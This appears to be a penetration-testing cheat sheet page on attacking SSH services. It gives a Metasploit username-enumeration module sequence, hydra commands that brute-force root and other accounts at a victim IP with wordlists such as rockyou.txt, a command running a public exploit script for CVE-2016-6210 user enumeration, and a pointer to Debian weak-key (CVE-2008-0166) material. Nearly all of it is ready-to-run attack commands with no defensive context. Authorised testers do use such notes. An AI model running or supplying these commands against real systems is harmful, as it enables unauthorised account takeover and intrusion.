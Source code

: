 ### SSH 

#### With metasploit
```
use auxiliary/scanner/ssh/ssh_enumusers
set user_file /usr/share/wordlists/metasploit/unix_users.txt or set user_file /usr/share/seclists/Usernames/Names/names.txt
run
```

#### Bruteforce with hydra
hydra -v -V -l root -P password-file.txt [victim_ip] ssh
hydra -v -V -L user.txt -P /usr/share/wordlists/rockyou.txt -t 16 [victim_ip] ssh

#### User name enumeration against SSH daemons affected by CVE-2016-6210.
- https://github.com/offensive-security/exploitdb/blob/master/exploits/linux/remote/40136.py
##### searchsploit
python /usr/share/exploitdb/exploits/linux/remote/40136.py -U /usr/share/wordlists/metasploit/unix_users.txt [victim_ip]

##### ssh CVE (CVE-2008-0166)
- https://github.com/g0tmi1k/debian-ssh
